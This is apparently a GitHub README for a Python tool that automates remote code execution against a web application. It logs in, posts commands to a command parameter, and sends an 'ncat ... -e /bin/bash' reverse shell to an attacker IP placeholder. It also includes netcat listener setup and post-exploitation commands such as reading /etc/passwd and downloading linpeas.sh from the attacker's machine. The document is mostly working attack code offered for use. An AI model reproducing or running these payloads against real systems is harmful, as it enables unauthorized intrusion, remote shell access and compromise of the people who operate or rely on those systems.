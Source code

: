 # Automated RCE Exploitation with Persistence
This Python script is designed to automate common steps in Remote Code Execution (RCE) exploitation, including authentication to a target web application and the ability to send commands and initiate a reverse shell. It aims to maintain persistence by re-authenticating if the session expires.

Create a file named `automated_rce.py` and add the following content:
```python
#!/usr/bin/python3

import requests
from colorama import Fore, Style # Added Style for good practice
import pyfiglet

font = pyfiglet.figlet_format('Auto-Exploit')
print(Fore.CYAN + font + Style.RESET_ALL) # Added Style.RESET_ALL

login_url = "http://example.com/login.php"
execute_url = "http://example.com/dashboard.php"
username = "USERNAME"
password = "PASSWORD"
attacker_ip = "ATTACKER_IP"
attacker_port = "PORT_NUMBERS"

def authenticate():
    session = requests.Session()
    response = session.post(login_url, data={'username':username, 'password':password})

    if "Welcome" in response.text:
        print("[+] Authentication successful.")
        return session
    else: # It's good practice to handle the failure case explicitly
        print("[-] Authentication failed.")
        return None # Return None if authentication fails

def execute_command(session, command):
    # This function needs to handle the case where session might be None
    if not session:
        print("[-] Cannot execute command: Session is not authenticated.")
        return

    response = session.post(execute_url, data={"cmd": command})
    # The re-authentication logic inside execute_command might be problematic.
    # It's better to handle session expiration where execute_command is called.
    # For now, let's simplify for the immediate error fix.
    print(f"[+] Output:\n{response.text}")


def get_reverse_shell(session, attacker_ip, attacker_port):
    if not session:
        print("[-] Cannot get reverse shell: Session is not authenticated.")
        return

    payload = f"ncat {attacker_ip} {attacker_port} -e /bin/bash"
    print(f"[+] Attempting to send reverse shell payload: {payload}")
    execute_command(session, payload)

    # The re-authentication here is redundant and problematic.
    # If the initial call to execute_command with the payload worked,
    # then 'whoami' should also work. If the session expired,
    # the calling code (main part) should re-authenticate.
    # Let's remove the redundant authentication call here for now.
    # if session: # This 'if session' check is not for re-authentication, but for initial success
    #     execute_command(session, "whoami")
    print("[+] If successful, check your netcat listener for a shell.")
    execute_command(session, "whoami") # Execute whoami to confirm if shell is active (optional)


# --- Main execution flow ---
print("[*] Attempting to authenticate...")
session = authenticate() # Call authenticate and store the session

if session: # Only proceed if authentication was successful
    print("[*] Authentication successful. Attempting to get reverse shell...")
    get_reverse_shell(session, attacker_ip, attacker_port)
else:
    print("[-] Failed to authenticate. Exiting.")
```

### Before Running: Set up a Listener
Before executing `automad-rce.py` to get a reverse shell, you must set up a Netcat listener on your attacking machine (your local machine) to catch the incoming connection from the target.

Open a new terminal on your machine and run:
```bash
$ nc -lvnp <PORT_NUMBERS>
```
Replace `<PORT_NUMBERS>` with the same port number you specified for attacker_port in the script (4444). This command sets up a Netcat listener that is verbose (`-v`), listens (`-l`), specifies a port (`-p`), and does not do DNS lookups (`-n`).

### How to Run the Script
Execute the script from your terminal:
```bash
$ python3 automated_rce.py
```

Alternatively, you can make the script executable and run it directly:
```bash
$ chmod +x automated_rce.py
$ ./automated_rce.py
```
Remember to modify the configuration variables (`login_url`, `execute_url`, `username`, `password`, `attacker_ip`, `attacker_port`) within the `automated_rce.py` script before running it.

### Common Linux RCE Commands
Here are some common commands you might use once you have RCE on a Linux target:
- `whoami`: Displays the user currently executing the command.
- `pwd`: Prints the current working directory.
- `id`: Shows user and group IDs.
- `uname -a`: Prints detailed system information (kernel version, OS type, etc.).
- `cat /etc/passwd`: Reads the system’s password file (if permissions allow), often used to enumerate users.
- `ls -la`: Lists files and directories with detailed permissions and ownership.
- `wget http://<attacker-ip>/linpeas.sh`: Downloads a script (e.g., linpeas.sh for Linux privilege escalation enumeration) from your attacker machine.
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`: Upgrades a simple shell to a fully interactive TTY shell, which is more convenient for navigating and executing complex commands.